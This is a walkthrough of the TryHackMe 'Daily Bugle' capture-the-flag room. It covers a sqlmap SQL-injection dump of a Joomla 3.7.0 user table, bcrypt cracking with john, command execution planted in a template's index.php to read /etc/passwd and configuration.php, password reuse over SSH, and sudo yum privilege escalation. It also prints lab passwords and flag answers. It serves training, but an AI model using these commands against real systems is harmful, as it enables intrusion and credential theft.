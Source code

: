 # Daily Bugle Walkthrough
### Link
- https://tryhackme.com/room/dailybugle
---
### Task 1 - Deploy
**Question**
###### Who robbed the bank?
**Answer**
###### spiderman
---
### Task 2 - Obtain user and root
1. Reco
- NMAP
```shell
nmap -sC -sV [IP] 
Result:
--> Port 22/80/3306 opened
--> Port 3306: MariaDB
```
[DailyBugle_1.png](https://github.com/LNB283/THM/blob/main/HARD/Daily%20Bugle/Pictures/DailyBugle_1.png)
- Gobuster
```
gobuster dir -u http://[IP]:80 -w [path to wordlist]
Directories found:
/images
/templates
/media
/modules
/bin
/plugins
/includes
/language
/components
/cache
/libraries
/tmp
/layouts
/administrator
```
- Joomscan

We know **Joomla** is installed.
We have an interesting tool : joomscan (https://www.kali.org/tools/joomscan/)

```
joomscan -u [IP]
```
**Question**
###### What is the Joomla version?
**Answer**
###### Joomla 3.7.0

2. Find and use an exploit

With the Joomla version, we can try to find an exploit
```
searchsploit joomla 3.7.0
Result:
Joomla! 3.7.0 - 'com_fields' SQL Injection         | php/webapps/42033.txt
Joomla! Component Easydiscuss < 4.0.21 - Cross-Sit | php/webapps/43488.txt
```

So let's now focus on the first one : SQL Injection
Explore the txt file to understand the exploit
```
searchsploit -x php/webapps/42033.txt
```

We have a beautiful sqlmap commandline to help us ^_^

3. SQLMAP 
```
SQLMAP:
sqlmap -u "http://localhost/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering]
```
*Info* : I don't use the option *--level=5* to perform the command to obtain the result more faster.

Now, let's check all tables 
```
sqlmap -u "http://10.10.59.102/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --random-agent --dbs -p list[fullordering] --threads 10 -D joomla --tables
```

We found too many tables: 72
Let's focus on __schemas , __session , __users , __user_keys
After few research, only **__users** give us interesting informaiton.
```
sqlmap -u "http://10.10.27.8/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --random-agent --dbs -p list[fullordering] --threads 10 -D joomla -T "#__users" --dump

Result:
+-----+------------+---------------------+---------+--------------------------------------------------------------+----------+
| id  | name       | email               | params  | password                                                     | username |
+-----+------------+---------------------+---------+--------------------------------------------------------------+----------+
| 811 | Super User | jonah@tryhackme.com | <blank> | $2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm | jonah    |
+-----+------------+---------------------+---------+--------------------------------------------------------------+----------+
```

We have the hash password for the **Super User** : jonah

4. Decrypt the password
- Firt : find the hash type
**$2y$**10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm 
- Second : search in Internet what is this type
**bcrypt**
- Thrid : Use john and decrypt the password
    - Create a file and copy/paste the hash
    - Use john
```
john -format=bcrypt --wordlist=/usr/share/wordlists/rockyou.txt hash_jonah
```

**Question**
###### What is Jonah's cracked password?
**Answer**
###### spiderman123

5. Joomla

Let's navigate in the administration portal.
User --> just jonah is here with super user privileges
User Groups --> Only 1 user (Jonah) is here

Now let's move to **Configuration/Global** --> Nothing really special
Move to **Configuration/Templates** --> **One Template is used for allpages: Protostar**. Good information. We probably use this template to gather more informaiton.

We can edit this template to see if we can exploit it by adding some code. For that: 
- Click on Templates and select Protostar
- Edit index.php
- Add the line: 
```
system("cat /etc/passwd")
```
- Save and refresh the Home page
**Finding** : Jonah Jameson:/home/jjameson:/bin/bash

Now we can try to find some information in configuration.php
- Add the line : 
```
system("cat configuration.php")
```
**Finding** : public $user = 'root'; public $password = 'nv5uz9r3ZEDzVjNu'

6. SSH

With the user **jjameson** and this password **nv5uz9r3ZEDzVjNu**, we can SSH the server.

**Question**
###### What is the user flag?
**Answer**
###### 27a260fe3cba712cfdedb1c86d80442e

7. Privilege escalation

- First: check what actions can do jjameson
```
sudo -l
Result: jjameson can execute yum
```
- Second: check https://gtfobins.github.io/gtfobins/yum/
- Third: Create a file and copy/paste all command from the website
- Fourth : Make this file executable
```
chmod +x yum.sh
```
- Fifth : execute
```
./yum.sh
```
- Sixth: We are **root**

**Question**
###### What is the root flag?
**Answer**
###### eec3d53292b1821868266858d7fa6f79





